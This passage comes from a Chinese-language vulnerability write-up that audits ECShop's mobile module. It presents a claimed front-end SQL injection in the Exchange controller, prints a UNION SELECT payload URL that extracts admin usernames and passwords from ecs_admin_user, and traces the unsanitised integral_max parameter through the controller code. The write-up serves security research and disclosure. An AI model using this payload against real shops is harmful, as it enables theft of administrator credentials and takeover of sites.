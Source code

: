 ```
`public function check_aftermarket($rec_id)`//UsersModel.class.php

里面都是直接拼接,可以全局搜索下调用地方,如果没有intval那么就是注入点了,我当时看了下没什么发现



## 0x10 (0day?)前台多处无条件无限制完美SQL注入

```
这个无限制注入的挖掘过程,还是耐心吧,找调用,找返回。
```

### <a class="reference-link" name="0x10.1%20Exchange%20asynclist_list%20%24integral_max%20%24integral_min%E6%97%A0%E9%99%90%E5%88%B6%E6%B3%A8%E5%85%A5"></a>0x10.1 Exchange asynclist_list $integral_max $integral_min无限制注入

直接看payload:

`http://127.0.0.1:8888/ecshop/upload/mobile/index.php?c=Exchange&amp;a=asynclist_list&amp;integral_max=1.0union select 1,password,3,password,5,user_name,7,8,9,10,11 from ecs_admin_user order by goods_id asc%23`

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://ws1.sinaimg.cn/large/006tNc79gy1fythqk8shlj32co0f8jwk.jpg)

分析一波:

`upload/mobile/include/apps/default/controllers/ExchangeController.class.php`

```
public function asynclist_list() `{`
        $this-&gt;parameter();//跟进这里
        $asyn_last = intval(I('post.last')) + 1;
        $this-&gt;page = I('post.page');
        $list = model('Exchange')-&gt;exchange_get_goods($this-&gt;children, $this-&gt;integral_min, $this-&gt;integral_max, $this-&gt;ext, $this-&gt;size,
        $this-&gt;page, $this-&gt;sort, $this-&gt;order);
        die(json_encode(array('list' =&gt; $list))); //这个die好东西,直接输出结果了
        exit();
    `}`
```

这里需要跟进二个函数:

1.`$this-&gt;parameter();` 作用获取:

`$this-&gt;children, $this-&gt;integral_min, $this-&gt;integral_max`

2.`model('Exchange')-&gt;exchange_get_goods` 作用拼接造成sql

分析1

```
private function parameter() `{`
        // 如果分类ID为0，则返回总分类页
        $page_size = C('page_size');
        $this-&gt;size = intval($page_size) &gt; 0 ? intval($page_size) : 10;
        $this-&gt;page = I('request.page') ? intval(I('request.page')) : 1;
        $this-&gt;ext = '';
        $this-&gt;cat_id = I('request.cat_id');
        $this-&gt;integral_max = I('request.integral_max');//获取
        $this-&gt;integral_min = I('request.integral_min');//
```
```